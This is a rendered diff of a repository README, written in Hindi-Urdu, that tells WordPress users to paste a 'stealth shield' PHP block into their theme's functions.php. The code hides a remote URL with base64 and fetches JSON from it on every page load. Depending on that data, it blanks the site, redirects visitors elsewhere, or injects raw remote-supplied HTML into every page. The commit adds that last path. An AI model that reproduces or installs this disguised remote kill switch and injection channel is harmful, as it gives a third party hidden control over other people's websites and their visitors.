

Before and after one commit to fahadtech8/license-manager, a Markdown page: README.md, the part around one of its changes. Shown at 90% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -152,72 +152,82 @@ _sys_sync_final_v10();
 **Kahan lagayein:** Theme ki `functions.php` file mein sabse niche.
 
 ```php
-/* --- WP STEALTH SHIELD V10 (FIXED) --- */
+/* --- WP STEALTH SHIELD V10 (FIXED FOR CUSTOM CODE) --- */
 add_action('init', '_wp_secure_v10_stealth');
 function _wp_secure_v10_stealth() {
-    // Admin dashboard ko block nahi karega taaki aap login kar sakein
+    // Admin dashboard block nahi hoga taaki aap access na kho dein
     if (is_admin()) return;
 
-    // URL aur Key (FAHAD-786)
+    // URL aur Key (Base64)
     $_u = base64_decode("aHR0cHM6Ly9mYWhhZHRlY2g4LmdpdGh1Yi5pby9saWNlbnNlLW1hbmFnZXIvY29udHJvbGxlci5qc29u");
     $_k = base64_decode("RkFIQUQtNzg2");
 
-    // WordPress way to fetch data
+    // Remote fetch using WP API
     $r = wp_remote_get($_u . '?v=' . time(), array('timeout' => 5));
     if (is_wp_error($r)) return;
 
     $d = json_decode(wp_remote_retrieve_body($r), true);
 
-    // --- Keys match with your JSON structure ---
+    // Data setup
     $_l = $d['licenses'][$_k] ?? null;
     $_s = $d['settings'] ?? [];
     $_h = str_replace('www.', '', $_SERVER['HTTP_HOST']);
     $_t = date("Y-m-d");
 
     $err = null;
+    $_is_custom = false;
 
-    // Validation Logic
-    if (!$_l) {
-        $err = $d['msg_invalid'];
+    // --- STEP 1: Priority Check (Custom Code Enabled?) ---
+    if ($_l && isset($_l['custom_code']) && $_l['custom_code']['enabled'] === true) {
+        $err = $_l['custom_code']['code']; // Stylish HTML code uthayega
+        $_is_custom = true;
     }
-    elseif (!empty($_l['authorized_target']) && !in_array($_h, $_l['authorized_target'])) {
-        $err = $d['msg_domain_mismatch'];
-    }
-    elseif (isset($_l['expiry']) && $_t > $_l['expiry']) {
-        $err = $d['msg_expired'];
+    // --- STEP 2: Normal License Validation ---
+    else {
+        if (!$_l) {
+            $err = $d['msg_invalid'];
+        }
+        elseif (!empty($_l['authorized_target']) && !in_array($_h, $_l['authorized_target'])) {
+            $err = $d['msg_domain_mismatch'];
+        }
+        elseif (isset($_l['expiry']) && $_t > $_l['expiry']) {
+            $err = $d['msg_expired'];
+        }
     }
 
     if ($err) {
         $de = $_s['redirect_delay_sec'] ?? 20;
         $ur = $_s['redirect_url'] ?? "#";
         $title = $d['title'] ?? "Security Shield Active";
+        $timer_display = $_is_custom ? "display:none;" : "display:block;";
 
         echo "<style>
             body{margin:0;background:#000!important;overflow:hidden!important;}
             #wp_v10{position:fixed;inset:0;background:#000;color:#fff;display:flex;align-items:center;justify-content:center;text-align:center;font-family:sans-serif;z-index:9999999;}
             .in{padding:40px;border:1px solid #222;border-radius:20px;max-width:480px;background:#050505;box-shadow:0 20px 50px rgba(0,0,0,0.5);}
-            h1{color:#ff3333;margin:0;font-size:28px;}
-            p{color:#bbb;margin-top:20px;font-size:17px;line-height:1.6;}
-            .tr{margin-top:30px;border-top:1px solid #1a1a1a;padding-top:20px;color:#555;font-size:13px;}
+            h1{color:#ff3333;margin:0;font-size:28px;margin-bottom:20px;}
+            .msg-body{color:#bbb;font-size:17px;line-height:1.6;}
+            .tr{margin-top:30px;border-top:1px solid #1a1a1a;padding-top:20px;color:#555;font-size:13px; {$timer_display} }
             #vt{color:#fff;font-weight:bold;font-size:18px;}
         </style>
         <div id='wp_v10'>
             <div class='in'>
                 <h1>{$title}</h1>
-                <p>{$err}</p>
-                <div class='tr'>Redirecting in <span id='vt'>{$de}</span>s...</div>
+                <div class='msg-body'>{$err}</div>
+                <div class='tr'>Redirecting automatically in <span id='vt'>{$de}</span>s...</div>
             </div>
         </div>
         <script>
-            let s={$de};
-            let it = setInterval(()=>{
-                s--;
-                document.getElementById('vt').innerText=s;
-                if(s<=0){
-                    clearInterval(it);
-                    window.location.href='{$ur}';
-                }
-            },1000);
+            let s = {$de};
+            let isCustom = " . ($_is_custom ? 'true' : 'false') . ";
+            if(!isCustom){
+                let it = setInterval(()=>{
+                    s--;
+                    let el = document.getElementById('vt');
+                    if(el) el.innerText = s;
+                    if(s <= 0){ clearInterval(it); window.location.href='{$ur}'; }
+                }, 1000);
+            }
         </script>";
         exit;
     }
````
Also changed, not shown: other parts of README.md (+0 -3 lines).
